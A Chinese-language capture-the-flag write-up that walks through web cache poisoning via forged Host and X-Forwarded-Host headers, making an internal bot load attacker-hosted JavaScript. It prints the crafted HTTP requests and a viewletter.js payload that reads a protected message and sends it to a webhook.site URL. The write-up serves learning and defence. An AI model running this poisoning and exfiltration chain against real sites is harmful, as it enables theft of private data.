 ## 分析

思路：
1. 首先缓存投毒一个不存在的`/letter?id=x`
2. 当`/submit`的时候，内部会请求我们投毒的页面`/letter?id=x`
3. `/letter?id=x`会加载一个`viewletter.js`的文件并发起`/message/x`的请求
4. 我们把`/letter?id=x`的页面污染之后，内部请求实际上是发送到我们的服务器，这样我们可以配合`viewletter.js`文件来发起内部请求获取`flag`

首先来看下代码

```JavaScript
router.get("/letters", (req, res) => {
    return res.render("viewletters.html", {
        cdn: `${req.protocol}://${req.hostname}:${req.headers["x-forwarded-port"] ?? 80}/static/`,
    });
});
```
当访问`/letters?id=x`的时候会加载`viewletters.html`，并且把`cdn`的值设置为可控内容
我们可以通过`Host`和`X-Forearded-Host`头来控制`hostname`和端口
再看看`viewletters.html`文件，内部存在一个`script`标签会加载`viewletter.js`，也就是发起一个`/message/x`的请求


接着再看`/submit`接口，提交内容的时候`id`是递增的
```JavaScript
.then(async inserted => {
    try {
        botVisiting = true;
        await visit(`http://127.0.0.1/letters?id=${inserted.lastID}`, authSecret);      //这里需要注意的是请求的是127.0.0.1
        botVisiting = false;
    }
```
当我们提交一个`letter`上去之后，内部`bot`会发起一个内部请求，去读取内容，我们可以从`database.js`文件中知道`flag`在`/message/3`中

所以我们需要缓存投毒一个不存在的`letter`，然后当提交的时候，程序内部发起请求，读取外部的`viewletter.js`文件

首先我们先缓存一个`/letters?id=17`的页面，这里需要注意`Host: 127.0.0.1`，因为在程序的`bot`中，它请求的是`127.0.0.1`

```
GET /letters?id=17 HTTP/1.1
Host: 127.0.0.1
X-Forwarded-Host: evilServer
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

RESPONSE:
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<base href="http://evilServer:80/static/" />
<link rel="preconnect" href="https://fonts.googleapis.com" />
```

可以看到已经成功投毒污染了返回页面 `<base href="http://evilServer:80/static/" />`

我们只需要提前在`http://evilServer:80/static/`服务器的目录下放置一个`viewletter.js`文件，代码如下：
```
const loadLetter = () => {

  fetch('http://127.0.0.1/message/3')
    .then(response => response.json())
    .then(data => {
      fetch('https://webhook.site/745ddb84-cc33-4caf-8ab7-44cf4ff2bdc2?flag=' + data.message);
});
};
loadLetter();
```

最后在`/submit`提交
```
POST /submit HTTP/1.1
Host: 157.245.42.82:32648
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://157.245.42.82:32648/
Content-Type: application/json
Origin: http://157.245.42.82:32648
Content-Length: 17
Connection: close

{"message":"111"}


RESPONSE:
HTTP/1.1 201 Created
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 14
ETag: W/"e-aWduDa/bnm8PdL24DEpqZTuA65c"
Date: Sun, 08 May 2022 13:40:31 GMT
X-Varnish: 98402
Age: 0
Via: 1.1 varnish (Varnish/6.1)
X-Cache: MISS
X-Cache-Hits: 0
Connection: close

{"message":17}
```

即可获得`flag`

